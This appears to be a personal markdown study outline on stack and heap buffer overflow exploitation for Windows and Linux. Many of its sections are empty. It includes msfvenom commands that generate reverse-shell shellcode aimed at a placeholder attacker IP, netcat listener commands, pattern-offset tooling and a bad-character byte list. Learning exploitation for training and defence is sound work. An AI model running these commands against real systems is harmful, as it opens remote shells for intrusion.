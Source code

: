 # buffer overflow

![Image result for buffer overflow](https://dpsvdv74uwwos.cloudfront.net/statics/img/ogimage/buffer-overflow-attacks.png)

[TOC]



## types

### stack based

A technically inclined user may exploit stack-based buffer overflows to manipulate the program to their advantage in one of several ways:

- By overwriting a local variable that is located near the vulnerable buffer on the stack, in order to change the behavior of the program
- By overwriting the return address in a [stack frame](https://en.wikipedia.org/wiki/Stack_frame). Once the function returns, execution will resume at the return address as specified by the attacker - usually a user-input filled buffer
- By overwriting a function pointer[[1\]](https://en.wikipedia.org/wiki/Buffer_overflow#cite_note-1) or [exception handler](https://en.wikipedia.org/wiki/Exception_handler), which is subsequently executed
- By overwriting a local variable (or pointer) of a different stack frame, which will be used by the function which owns that frame later  

![Image result for stack based  buffer overflow](https://payatu.com/wp-content/uploads/2018/01/c_prog_mem_layout.jpg)

### heap based

A buffer overflow occurring in the heap data area is referred to as a heap overflow and is exploitable in a manner different from that of stack-based overflows. Memory on the heap is dynamically allocated by the application at run-time and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow technique overwrites dynamic memory allocation linkage (such as [malloc](https://en.wikipedia.org/wiki/Malloc) meta data) and uses the resulting pointer exchange to overwrite a program function pointer



<img src="https://www.researchgate.net/profile/Roshan_Ragel/publication/230559751/figure/fig6/AS:669389712027653@1536606352473/Heap-based-Buffer-Overflow-Attack.png" alt="Image result for heap based buffer overflow" style="zoom:50%;" />

## exploitation

### windows buffer overflow

#### discovering vulnerablity 

### introduction to immunity debuuger

#### adding the application to  imunnity debugger

####  

#### fuzzing the application 

#### replicating the crash 

#### controlling the EIP

##### locating eip  by creating unique pattern

##### locating the offset address of eip

#### locating space for shell code

##### checking for bad charcters

##### redirecting the execution flow

##### finding the return address

 ##### introduction to mona

```
!mona
```



##### identifying the module with out aslr,dep,seh

##### nasm shell

```
msf-nasm_shell

nasm>jmp esp
```



#### genrating shellcode

```
msfvenom -p windows/shell_reverse_tcp lhost=attackerip lport=attackerport -f fileformat -e x86/shikata_ga_nai -b "badcharcters"
```



#### optimising the shellcode



#### getting  reverse shell

```
nc -nlvp port to connect
```



#### improving the exploit







### linux buffer overflow

#### discovering the vulnerablity

### replicating the crash

### introduction to the edb(evans debugger)

```
edb
```



##### adding the applcation to the edb

```

```



### controlling the EIP

#### locating the eip using unique pattern 

```
msf-pattern_create -l string
```



#### locating the offset using the unique pattern

```
msf-pattern_offset -q string
```



### locating Space for shell code



#### geting opcodes

```
msf-nasm_shell
nasm>
nasmm>
```



### checking for bad charcters

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```



### finding a return address

```

```



### genrating shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -o outputname
```



### modfying shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -v shellcode
```



### getting shell

```
nc -nlvp port 
```





